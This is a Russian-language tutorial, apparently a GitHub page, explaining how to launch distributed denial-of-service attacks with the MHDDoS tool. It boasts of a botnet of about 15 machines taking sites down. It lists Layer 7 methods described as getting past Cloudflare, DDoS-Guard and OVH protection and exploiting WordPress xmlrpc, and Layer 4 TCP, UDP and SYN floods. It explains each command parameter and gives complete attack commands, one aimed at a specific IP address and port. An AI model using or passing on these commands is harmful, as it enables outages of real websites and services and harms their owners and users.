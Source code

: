 <h1 align="center">Глубокий разбор MHDDoS (Шпаргалка)</h1>
<br/>
March 03, 2022

![https://github.com/BionecX/mhddos_p_docs/blob/main/images/ph_Glubokij-razbor-MHDDoS-SHpargalka-03-02_1.jpg](https://github.com/BionecX/mhddos_p_docs/blob/main/images/ph_Glubokij-razbor-MHDDoS-SHpargalka-03-02_1.jpg)

__Привет киберсловяне!__

___В предыдущем туториале___ мы запускали простенькую DDoS-атаку через тулзу MHDDoS, использовали команду, которую в качестве примера предложил разработчик данного средства. Запустив первую атаку, ботнет (~15 машин) с легкостью похоронил простенькие сайты. Средство оказалось рабочим и эффективным, теперь давайте разберем полный функционал данного монстра.

<br/>

## Как работает?
<br/>

__MHDDoS__ предлагает проведение атаки на двух уровнях OSI (Сетевая модель): 
<br/>

* __Layer 7__ – Верхний уровень сетевой модели, атака производится на уровне приложений средством сложных/зловредных/неполных http/https-запросов. Атака производится с использованием веб-адреса(ссылки) на цель. Проводя атаки на данном уровне, есть возможность прохождения различных средств DDoS-защиты (Cloudflare, DDoS-guard, etc.), а также подключения прокси.

* __Layer 4__ – Транспортный уровень, прямая связь между клиентом и серверов. Атака производится отправкой TCP/UPD/SYN пакетов и запросов напрямую на внешний сервер по определенному порту. Данная атака сработает если атакуемый хост(веб-сервер) не является хостом WAF – тоесть специальный хост-бастион, предназначенный для обработки большой нагрузки и фильтрации зловредных пакетов. 
<br/>
<br/>

## Разбираем команды и средства для атаки на Layer 7

<br/>

Шаблон команды выглядит следующим образом:

    python3 start.py <layer7-tool> https://example.com <socks-type> <threads> <proxylist> <rpc> <duration> <debug>

В \<layer7-tool> указываем один из предложенных методов атаки: 

    GET | DDoS запросами GET
    POST | DDoS запросами POST
    OVH | Атака с прохождением защиты OVH
    STRESS | Отправка http-пакетов большого веса
    DGB | Атака с прохождением защиты DDoS Guard 
    APACHE | Атака на уязвимую версию apache веб-сервер
    XMLRPC | Атака с использованием вредоносного эксплойта для Wordpress-сайтов /xmlrpc.php)
    CFB | Атака с прохождением защиты CloudFlare
    CFBUAM | Атака с прохождением защиты  CloudFlare Under Attack Mode 
    BYPASS | Атака с прохождением защиты обычных AntiDDoS решений

<br/>

`<socks-type>` - ставим значение «5», почитать про SOCK5 протокол можете самостоятельно

`<threads>` - количество потоков угроз, сколько соединений будет установлено.

`<proxylist>` - использованием прокси-соединений для атаки, используем значение proxy.txt (этот файл автоматически у вас загружается при загрузке MHDDoS). Если вам не нужно прокси-соединение для атак (например, используете впн или свои прокси - просто оставьте параметр пустым)

`<rpc>` - соединений в секунду

`<duration>` - длительность атаки в секундах

`<debug>` - мониторинг процесса атаки, если требуется указывать true

<br/>

Итоговая команда с использованием метода BYPASS выглядит следующим образом:
 `python3 start.py bypass https://example.com 5 1000 proxy.txt 100 360 true`
<br/>
<br/>

## Разбираем команды и средства для атаки на Layer 4
<br/>
Шаблон команды выглядит следующим образом:

    python3 start.py <layer4-tool> <ip:port> <threads> <duration>

В \<layer7-tool> указываем один из предложенных методов атаки: 
    
    TCP | DDoS TCP-пакетами
    UDP | DDoS UDP-пакетами
    SYN | DDoS SYN-запросами

   >p.s. Средства по амплификации здесь не указаны, так как нужно знать значение broadcast-шлюза в подсети, данные атаки больше подходят для внутренней сети, учитывая то, что веб-сайты используют WAF.
<br/>
<br/>
    
`<ip:port>` – указываем IP-адрес и порт в формате 172.67.211.15:53
    
`<threads>` - количество пакетов
    
`<duration>` - продолжительность атаки в секундах
    
<br/>
Итоговая команда с методом UDP DDoS будет выглядить так:

    python3 start.py udp 172.67.37.28:53 1000 360


